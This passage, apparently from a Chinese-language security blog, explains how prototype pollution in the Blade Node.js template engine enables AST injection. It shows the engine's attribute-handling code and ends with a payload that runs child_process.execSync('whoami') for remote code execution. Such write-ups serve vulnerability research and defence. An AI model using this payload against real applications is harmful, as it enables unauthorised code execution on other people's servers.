[](https://xzfile.aliyuncs.com/media/upload/picture/20230627121424-19816316-14a1-1.png)

赋值完后，还有一个循环，刚好能够取出原型链中的属性，实现 `ast injeciton`

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627121430-1d173e7e-14a1-1.png)

如下图：注意到 `i` 就是原型链中的属性

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627121436-20810b3a-14a1-1.png)

这样我们就明白了为啥导致AST树中出现 `undefined` ，我们只需要加入`name` 和 `value` 属性即可

```plain
Object.prototype.otherprop = {'code': 'console.log(1)', "name": "abc", "value": "def"};
```

### RCE

既然可以注入任意属性了，那我们就可以利用这一点，向 `attributes` 中写入代码

注意到在处理AST生成代码的过程中，会处理 `code` 的属性

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627121443-24f85100-14a1-1.png)

```plain
for(var i in attrs)
{
    //interpolate text attributes
    if(attrs[i].text)
    {
        var stringified = JSON.stringify(attrs[i].text),
            interpolated = bladeutil.interpolate(stringified, ns);
        //check to see if this text attribute needs to be interpolated
        if(interpolated != stringified)
        {
            delete attrs[i].text;
            attrs[i].code = interpolated;
        }
    }
    //take care of text attributes here
    if(attrs[i].text != null)
    {
        if(attrs[i].escape)
            this._push("' " + i + "=" + bladeutil.quote(
                JSON.stringify(runtime.escape(attrs[i].text)) ) + "'");
        else
            this._push("' " + i + "=" + bladeutil.quote(
                JSON.stringify(attrs[i].text) ) + "'");
    }
    //take care of code attributes here
    // 在这里注入代码！！！
    else
        varAttrs += "," + JSON.stringify(i) + ":{v:" + attrs[i].code +
            (attrs[i].escape ? ",e:1" : "") +
            (i == "class" && attrs[i].append ?
                ",a:" + JSON.stringify(attrs[i].append): "") + "}";
```

Payload如下，这样就能实现AST Injection+ RCE了！

```plain
Object.prototype.someprop = {
    'name': 'somename',
    'value': 'somevalue',
    'code' : "process.mainModule.require('child_process').execSync(`whoami`)"
};
```
